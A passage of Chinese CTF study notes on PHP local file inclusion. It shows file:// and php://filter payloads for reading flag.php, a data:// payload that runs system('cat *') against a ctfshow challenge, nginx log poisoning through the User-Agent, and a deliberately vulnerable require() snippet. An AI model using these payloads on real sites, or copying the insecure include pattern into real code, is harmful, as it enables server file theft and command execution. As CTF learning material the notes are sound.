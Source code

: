 ##### 5. file伪协议

```r
?url=file:///var/www/html/flag.php
```

##### 6. 固定后缀包含 include($c.“.php”);

例题：ctfshow-web39
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200927180416307.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
payload1:使用data协议

```bash
c=data:text/plain,<?php system('cat *');?>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020092718055785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)



##### 7. 利用session.upload_progress进行文件包含

##### 8.php://filter的过滤器大全

##### 9.日志包含

以ctfshow中一题为例：

先读取日志文件，发现可以读取

```php
file=/var/log/nginx/access.log
```

然后尝试让日志包含一句话。（看日志里记录了什么信息，然后更改对应信息来写入）

接下来抓包修改UA中的内容

##### 10.require+get_defined_vars包含任意文件

原理：通过`get_defined_vars()` 数组获取到这个伪协议放到 require() 里包含

index.php

```php
<?php 
    echo get_defined_vars()[_GET][rce];
    echo "<br>";
    require(get_defined_vars()[_GET][rce]);
?>
```

然后传参rce值`php://filter/convert.base64-encode/resource=flag.php`

```
http://127.0.0.1/?rce=php://filter/convert.base64-encode/resource=flag.php
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/998b6b54c2b34cd7aeff618024c8ca32.png)
